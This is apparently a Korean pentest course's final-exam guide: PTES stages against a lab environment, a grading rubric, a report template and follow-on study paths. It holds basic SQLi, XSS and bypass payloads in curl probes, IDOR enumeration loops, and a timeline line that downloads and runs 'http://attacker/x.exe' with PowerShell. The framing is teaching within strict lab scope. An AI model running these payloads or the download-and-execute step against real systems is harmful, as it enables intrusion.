

# Week 15 — 기말 — PTES 7 단계 종합 침투 + 보고서 (180분)

> 본 주차는 attack 과목의 **종합 평가** 이자 **수료**. PTES (Penetration Testing
> Execution Standard) 의 7 단계 모두를 6v6 환경의 8 vuln + 4 인프라에 대해 수행 +
> 표준 보고서 제출. 본 과목의 최종 산출물 = PTES 보고서.

## 1. 시험 개요

### 1.1 형식

```
시간: 180분 (3 시간)
   - 실기: 120 분 (PTES 5 단계 — Recon / Vuln Analysis / Exploit / Post Exploit / Reporting)
   - 보고서: 60 분 (PTES 7 섹션 표준 양식)

점수: 5 단계 × 20점 = 100점
   - Recon 20점
   - Vuln Analysis 20점
   - Exploit 30점
   - Post Exploit 10점
   - Reporting 20점 (보고서 quality)

도구: 모든 도구 + 인터넷 검색 허용 (AI 어시스턴트 금지)
RoE: 6v6 환경만, 외부 시스템 금지
산출물: PTES 7 섹션 보고서 PDF (10+ 페이지)
```

### 1.2 시험 환경

```
대상: 6v6 환경의 16 컨테이너 + 8 vuln 사이트
도구: attacker 컨테이너의 13 도구 + 학생 PC 의 Burp Suite
시간: 본인 PC 에서 단독 진행 (시험관 monitoring)
```

---

## 2. PTES 7 단계 → 본 시험 5 단계 매핑

PTES 의 7 단계 중 본 시험은 5 단계 평가 + 보고서:

| PTES 단계 | 본 시험 평가 |
|-----------|--------------|
| 1. Pre-engagement | (체크리스트 — 점수 X) |
| 2. Recon | **20점** |
| 3. Threat Modeling | **10점** (Vuln Analysis 와 통합) |
| 4. Vuln Analysis | **20점** (10점 + Threat 10점) |
| 5. Exploitation | **30점** |
| 6. Post Exploitation | **10점** |
| 7. Reporting | **20점** |

---

## 3. 시나리오 (가상)

```
"K-Education 학교가 본 6v6 환경에 침투 테스트를 의뢰했다.
 학생 (본인) 은 합법적 침투 테스터로서 PTES 7 단계 모두 수행하고
 결과 보고서를 제출한다."

scope: 6v6 환경의 8 vuln 사이트 + 4 인프라 (fw / ips / web / bastion)
out-of-scope: docker daemon 자체 / 호스트 OS / 다른 학생의 환경
schedule: 180분 (실기 120 + 보고서 60)
contact: 강사 email
```

---

## 4. 5 단계 평가 상세

### 4.1 단계 1 (Recon, 20점) — W02 학습

#### 평가 항목

```
4점: nmap -sT -sS -sV -O 4 모드 + 결과 분석
4점: ffuf / dirb 의 발견 path 5+
4점: nikto 의 vuln 식별
4점: OSINT 시뮬 (recon-ng / theHarvester 패턴)
4점: ATT&CK Recon Technique (T1595 / T1592 / T1594) 매핑
```

#### 실행 예

```bash
# nmap 모음
nmap -sV -p- 10.20.30.1   # full port scan
nmap -sn 10.20.30.0/24    # ping sweep

# ffuf
ffuf -u "http://10.20.30.1/FUZZ" -H "Host: juice.6v6.lab" \
    -w /usr/share/dirb/wordlists/common.txt -mc 200,302

# nikto
nikto -h http://10.20.30.1 -port 80 -host juice.6v6.lab

# 결과 자산 표 작성
```

### 4.2 단계 2 (Vuln Analysis + Threat Modeling, 20점) — W03-W07 학습

#### 평가 항목

```
5점: 8 vuln 사이트 의 OWASP Top 10 매핑 (각 사이트 의 주요 vuln 식별)
5점: STRIDE 위협 모델링 (6 카테고리 — Spoofing/Tampering/Repudiation/Info disclosure/DoS/Elevation)
5점: CVSS 3.1 점수 부여 (3+ vuln 의 base score)
5점: CWE Top 25 매핑
```

#### 실행 예

```bash
# 각 vuln 사이트의 응답 분석
for h in juice dvwa neobank govportal mediforum admin; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: $h.6v6.lab" \
        "http://10.20.30.1/?test=<script>")
    echo "$h.6v6.lab XSS test: $code"
done

# 응답 헤더 분석 (CSP / HSTS / X-Frame 등)
curl -sI -H "Host: juice.6v6.lab" http://10.20.30.1/ | head -20
```

### 4.3 단계 3 (Exploitation, 30점) — W04-W10 학습

#### 평가 항목

```
10점: 3 vuln 실 exploit 시도 (SQLi + XSS + IDOR 또는 다른 3)
10점: 응답 코드 매트릭스 + ModSec 차단 분석
5점: 우회 시도 (encoding / tamper)
5점: 영향 분석 (실 데이터 유출 가능성 평가 — 시뮬만)
```

#### 실행 예

```bash
# 1. SQLi
curl -s -o /dev/null -w "SQLi: %{http_code}\n" \
    -H "Host: dvwa.6v6.lab" \
    "http://10.20.30.1/?q=1+OR+1=1"

# 2. XSS
curl -s -o /dev/null -w "XSS: %{http_code}\n" \
    -H "Host: juice.6v6.lab" \
    "http://10.20.30.1/?q=<script>alert(1)</script>"

# 3. IDOR
for id in 1 2 3 4 5; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: juice.6v6.lab" \
        "http://10.20.30.1/api/Users/$id")
    echo "User $id: $code"
done

# 우회 시도
for p in "<script>" "<ScRiPt>" "<sc<script>ript>" "<svg/onload=alert(1)>"; do
    curl -s -o /dev/null -w "$p: %{http_code}\n" \
        -H "Host: juice.6v6.lab" \
        "http://10.20.30.1/?q=$p"
done
```

### 4.4 단계 4 (Post Exploitation, 10점) — W11-W12 학습

#### 평가 항목

```
3점: 권한 상승 가설 (W11 의 5 카테고리 — sudo / SUID / cron / cap / kernel)
3점: 지속성 가설 (W12 의 5 패턴 — 실 적용 X, 시뮬만)
2점: ATT&CK TA0004 + TA0003 매핑
2점: 윤리적 한계 (실 침해 안 했음 명시)
```

#### 산출물 (시뮬)

```markdown
## Post Exploitation 가설

### 권한 상승 시나리오 (실 적용 X)
- bastion 의 ccc 사용자 권한 (학습 환경)
- 가능한 권한 상승 vector:
  1. sudo -l → NOPASSWD: ALL (학습 환경 — production 위험)
  2. SUID find → /bin/sh
  3. cron file 변조 (world-writable 시)

### 지속성 시나리오 (시뮬만, 실 적용 X)
- SSH key 추가: 불가 (RoE 위반)
- web shell: 불가
- cron entry: 불가

### ATT&CK 매핑
- T1548.001 (SUID)
- T1078 (Valid Accounts)

### 윤리적 한계
본 시험은 실제 권한 상승 / 지속성 적용 X. 가설 시나리오 + 분석만 제공.
```

### 4.5 단계 5 (Reporting, 20점) — 본 주차

#### 평가 항목 (보고서 quality)

```
5점: Executive Summary 의 명확성
5점: ATT&CK + OWASP + CWE + CVSS 표준 매핑
5점: Recommendation 우선순위 + 합리성
5점: Appendix 의 reproduction steps + raw output 완성도
```

---

## 5. PTES 보고서 표준 양식

### 5.1 7 섹션

```markdown
# 6v6 침투 테스트 보고서 (PTES Engagement)

# 의뢰자: K-Education
# 침투 테스터: <본인 학번 / 이름>
# 일자: 2026-MM-DD

## 1. Executive Summary (1 페이지)

본 보고서는 K-Education 의 6v6 환경 (16 컨테이너 + 8 vuln 사이트) 에 대한
침투 테스트 결과이다. 본 침투 테스터는 PTES 7 단계 + MITRE ATT&CK + OWASP Top 10
표준을 적용하여 N 시간의 침투 시도를 수행했다.

### 핵심 결과
- High-risk vuln: N 건
- Medium-risk vuln: M 건
- Low-risk vuln: K 건
- Critical 침해 가능성: <설명>

### 권장 (우선순위)
1. (Critical) ...
2. (High) ...
3. (Medium) ...

## 2. Methodology

### Scope
- in-scope: 6v6 환경
- out-of-scope: 호스트 OS / 다른 학생의 환경 / 외부 시스템

### Standards
- PTES 7 단계
- MITRE ATT&CK Enterprise Matrix
- OWASP Top 10 2021
- CVSS 3.1
- CWE Top 25

### Tools
- nmap / ffuf / nikto (정찰)
- sqlmap / Burp Suite (web 공격)
- hydra / john (인증 공격)
- (실 사용 도구 list)

## 3. Findings (vuln 발견)

| ID | 취약점 | CVSS | CWE | OWASP | ATT&CK |
| F1 | XSS Reflected on juice.6v6.lab | 6.1 | CWE-79 | A03 | T1059.007 |
| F2 | SQLi on dvwa.6v6.lab (low) | 9.8 | CWE-89 | A03 | T1190 |
| F3 | IDOR on /api/Users | 8.2 | CWE-639 | A01 | T1078 |
| F4 | Path Traversal on govportal | 7.5 | CWE-22 | A05 | T1083 |
| F5 | JWT alg=none on JuiceShop | 9.1 | CWE-287 | A07 | T1212 |
| ... | | | | | |

(각 finding 의 상세 — request / response / 영향 / 권장)

## 4. Technical Details

### Finding F1 — XSS Reflected
- Endpoint: GET http://juice.6v6.lab/?q=<payload>
- Payload: <script>alert(1)</script>
- Response: ModSec 941100 차단 (403)
- 비고: paranoia 1 우회 가능성 — <ScRiPt> 또는 nested 일부 통과
- 영향: 차단 시 영향 0. 우회 성공 시 cookie 도용 가능.
- Reproduction:
  ```
  curl -H "Host: juice.6v6.lab" "http://10.20.30.1/?q=<script>alert(1)</script>"
  ```

### Finding F2 — SQLi (DVWA low) ...
(각 finding 의 동일 양식)

## 5. Recommendations

### Critical (즉시)
1. **ModSec paranoia 2 단계 상승** (vhost 별 선택적)
   - 영향: 일부 vhost 의 false-positive 가능성
   - 시간: 1 주 (DetectionOnly 모드 → On)

2. **JWT alg whitelist** (모든 JWT 검증)
   - 영향: 거의 없음
   - 시간: 1 일 (application 변경)

### High (1 개월)
1. IDOR 의 권한 검증 (caller.id == requested_id)
2. Path Traversal 의 input validation (os.path.realpath + base prefix)
3. WAF + IDS 통합 alert dashboard (W14 Purple Team 의 일부)

### Medium (분기)
1. Wazuh CDB list 자동 갱신 (W13 secuops)
2. Active Response 의 적용 (level 12 alert → fw drop)
3. 분기별 Purple Team session

### Low (정기)
1. Sigma rule 의 community share (한국 ISAC)
2. ATT&CK Navigator 의 layer JSON 갱신

## 6. ATT&CK Coverage Matrix

(W14 의 Coverage Matrix 양식)

| Technique | Red 시도 | Blue 탐지 | 도구 | Coverage |
| T1190 | ✓ | ✓ | ModSec 942 | 100% |
| T1059.007 | ✓ | ✓ | ModSec 941 | 100% |
| T1078 | ✓ | ✓ | Wazuh 5710 | 100% |
| T1083 | ✓ | △ | ModSec 930 | 50% |
| T1110 | ✓ | ✓ | Wazuh 5712 | 100% |

총 Coverage: 90% (4.5 / 5)

## 7. Appendix

### Appendix A — nmap 의 raw output
(전체 출력)

### Appendix B — sqlmap report
(sqlmap 실행 로그)

### Appendix C — Burp Suite HTML 보고서 (있다면)

### Appendix D — Wazuh alerts.json export
(detect 된 alert 의 JSON)

### Appendix E — ModSec audit log
(매치된 transaction)

### Appendix F — 본인 history (실 실행 명령)
```

### 5.2 표준 참조

```
PTES 공식 wiki: http://www.pentest-standard.org/
NIST SP 800-115 (Technical Guide to Information Security Testing)
OSSTMM (Open Source Security Testing Methodology Manual)
```

---

## 6. 평가 매트릭스

| 점수 | 등급 | 의미 |
|------|------|------|
| 90+ | **A** | 수료 + advanced track (course13 attack-advanced) 자격 |
| 80-89 | **B+** | 수료 |
| 70-79 | **B** | 수료 |
| 60-69 | **C+** | 수료 (조건부 — 부분 재시험) |
| 50-59 | **C** | 부분 재시험 (W01-W14 의 약점 주차) |
| 50 미만 | **F** | 재수강 |

총 100점.

---

## 7. 시험 진행 순서

### 7.1 시작 전 (5분)

```
1. attacker 컨테이너 진입
2. 본인 환경 헬스체크 (W01 과 동일)
3. 답안 파일 생성: /tmp/final_<학번>.md
4. 시간 confirm
```

### 7.2 실기 (120분)

```
0-30분  : Recon + Vuln Analysis (40점)
30-90분 : Exploit (30점) + Post Exploit (10점) — 가장 시간 소요
90-120분: 시간 보너스 + 추가 시도
```

### 7.3 보고서 (60분)

```
PTES 7 섹션 양식대로 작성
   - Executive Summary 가장 중요 (CISO 가 첫 1 페이지만 읽기)
   - Findings 표 + Technical Detail 의 reproduction step
   - Recommendation 의 우선순위 + 시간 견적
   - Appendix 의 raw output 첨부 (또는 link)
```

### 7.4 시험 후

```
1. 보고서 PDF 또는 Markdown 제출 (LMS / email)
2. 본인 환경 cleanup (30분 안에)
3. 시험 종료
```

---

## 8. R/B/P 시나리오 — 본 시험의 종합



---

## 9. 수료 후 권장 학습 path

### 9.1 자격증

```
- CompTIA PenTest+ : 입문 + 가장 표준
- OSCP (Offensive Security Certified Professional) : 24시간 실기 — challenging
- OSEP (Offensive Security Experienced Pentester) : OSCP 후속
- eJPT (eLearnSecurity Junior PT) : 입문
- CEH (Certified Ethical Hacker) : 시장에서 흔함, 어려움 ↓
- GPEN (GIAC Penetration Tester) : SANS, expensive
```

### 9.2 본 과목 후속 course

```
- course13 attack-advanced : APT kill chain + C2 + AD 공격
- course16 physical-pentest : RFID / USB HID / 물리 침투
- course11 battle : 공방전 (Red + Blue 대전)
- course7 ai-security : Bastion 자동화
```

### 9.3 Bug Bounty

```
- HackerOne (https://hackerone.com) : 가장 표준
- Bugcrowd (https://bugcrowd.com) : 빠른 progression
- 한국 KISA 의 화이트해커 프로그램
- Open Bug Bounty (https://openbugbounty.org) : 무료 정찰 기반
```

### 9.4 한국 CTF 참가

```
- KISA CTF (매년 1회)
- HackTheon (정부 사이버보안인재 양성)
- DEFCON 한국팀 (DEFCON CTF 진출 시도)
- 학교 동아리 CTF (K-Shield 등)
```

---

## 9.5 PTES 7 단계 × Windows victim PC — 기말의 표준 narrative (W03 secuops 위빙)

본 기말의 PTES 7 단계는 — Pre-engagement / Intel Gathering / Threat Modeling / Vulnerability Analysis /
Exploitation / Post-Exploitation / Reporting — 의 종합. **Windows 사용자 PC 를 표적** 으로 두는 것이
가장 풍부한 시나리오를 만든다.

### 7 단계 × Windows victim 시나리오

| 단계 | Red 행동 | Blue 측 단서 |
|------|---------|-------------|
| ① Pre-engagement | 범위·rules of engagement 동의 (학기 시작 시 학생 동의서) | — |
| ② Intel Gathering | nmap 10.20.33.60 → 22/3389/445/5985 발견 | fw events.log (포트 access 패턴) |
| ③ Threat Modeling | RDP brute / SMB null / WinRM brute 후보 식별 | — (계획 단계) |
| ④ Vulnerability Analysis | 약한 비밀번호 / 패치 미적용 / 사용자 행동 가설 | osquery / Sysmon EID 1 baseline |
| ⑤ Exploitation | 직원에게 피싱 → curl 다운로드 → powershell 실행 | **Sysmon EID 1+3+11 (Win) + WAF/Suricata** |
| ⑥ Post-Exploitation | 권한상승(UAC bypass) → 지속성(Run key) → 데이터 유출(curl POST) | **Sysmon EID 13 (Registry) + 3 (outbound)** |
| ⑦ Reporting | 7 단계 timeline + 권장 5 + 영향 평가 | — (학생 report) |

### 기말 답안 양식 (Reporting 단계의 결과물)

```
| 단계 | 시각 (Day-HH:MM) | 행동·도구 | 흔적 (Blue 측 source/EID) | ATT&CK |
| --- | --- | --- | --- | --- |
| ② Intel | D1-09:00 | nmap -p 22,135,139,445,3389,5985 | fw events 포트 access | T1595 |
| ⑤ Exploit | D1-10:30 | curl http://attacker/x.exe + powershell | Sysmon EID 1+3 (Win) | T1059.001 |
| ⑥ Post | D1-11:00 | Run key 등록 + DNS 콜백 | Sysmon EID 13 + 22 | T1547.001 + T1071.004 |
```

### 평가 핵심

- 7 단계 모두 실측 흔적이 있어야 (시뮬레이션이지만 6v6 에서 정말 실행).
- 각 단계의 흔적이 **Blue 의 어디서 잡히는지** 학생이 정확히 안다 (Red 의 자기 인식).
- ATT&CK 매핑이 7 Tactic 중 5 이상 cover.
- Reporting 의 **영향 평가** (CIA + 비즈니스 영향) 가 1 페이지 narrative.

> **본 기말의 메시지** — Red Team 의 완성도 = 자기 흔적을 정확히 그릴 수 있는 능력. Windows 사용자
> PC 가 들어옴으로써 그 narrative 가 깊고 풍부해졌다.

---

## 10. 본 과목 학습 마무리 — 15 주의 종합

### 10.1 학습한 내용

```
W01: 환경 + RoE + PTES + ATT&CK + OWASP
W02: 정찰 (nmap + nikto + ffuf + OSINT)
W03: 웹 앱 + Burp + JuiceShop + JWT
W04: SQLi (4 타입 + sqlmap + ModSec 942)
W05: XSS (3 타입 + 12 변형 + CSP)
W06: 인증·접근제어 (hydra + JWT + IDOR)
W07: SSRF / 파일업로드 / Path Traversal
W08: 중간고사 CTF (3 challenge)
W09: 네트워크 공격 (tcpdump + scapy)
W10: IDS/WAF 우회 (encoding + tamper + smuggling)
W11: 권한 상승 (5 카테고리 + LinPEAS + GTFOBins)
W12: 지속성 + 안티포렌식 (5 패턴 + Rootkit)
W13: Caldera Adversary Emulation
W14: Purple Team (Coverage Matrix + AAR)
W15: 기말 PTES 보고서
```

### 10.2 본 과목의 가치

```
1. 공격자 시점 학습 → 방어 측 (Blue / Purple) 의 권장 강화
2. PTES + ATT&CK + OWASP 표준 학습
3. 13 도구 실습
4. 8 vuln 사이트 + 4 인프라 의 실 침투 경험
5. 윤리적 한계 + 한국 법적 근거
6. R/B/P 시나리오의 모든 주차 적용 → 본 과목의 학습 철학
```

### 10.3 마치며

```
침투 테스트는 도구 사용이 아닌 사고 방식의 학습.
공격자처럼 생각하되, 방어 측을 강화하는 의도가 본 과목의 핵심.
지속 학습 + 합법 범위 준수 → 윤리적 침투 테스터의 첫 걸음.

수료 후 본인의 R/B/P 보고서 1 페이지 작성 후 강사 email 송부.
1 년 후 본인의 침투 테스트 경력 update 보고도 환영.
```

---

## 11. 평가 기준 (W15 기말)

| 항목 | 비중 | 평가 방법 |
|------|------|----------|
| Recon (단계 1) | 20% | 4 nmap mode + ffuf 5 path + nikto + ATT&CK 매핑 |
| Vuln Analysis (단계 2-3) | 20% | OWASP / STRIDE / CVSS / CWE 매핑 |
| Exploit (단계 4) | 30% | 3 vuln 실 시도 + 응답 + 우회 |
| Post Exploit (단계 5) | 10% | 권한 상승 + 지속성 가설 |
| Reporting (단계 6) | 20% | PTES 7 섹션 양식 + quality |

총 100점.

---

## 12. 마치며 — 본 과목 끝

```
secuops + attack 두 과목의 30 주차 학습 종료.

본 학생이 다음 단계로 나아가길 권장:
  - 자격증 (PenTest+ 또는 OSCP)
  - bug bounty 1+ 건 (HackerOne)
  - 한국 CTF 참가 1+ 회
  - 본인 R/B/P 보고서 정기 작성

침투 테스트는 hi-tech 가 아닌 정직과 윤리의 학습이다.
권한 안에서만, 책임 있는 공개, 방어 측 개선이 목적.

본인의 안전 + 학교의 신뢰 + 한국 사이버보안의 발전을 위해
지속 학습하길 바란다.
```
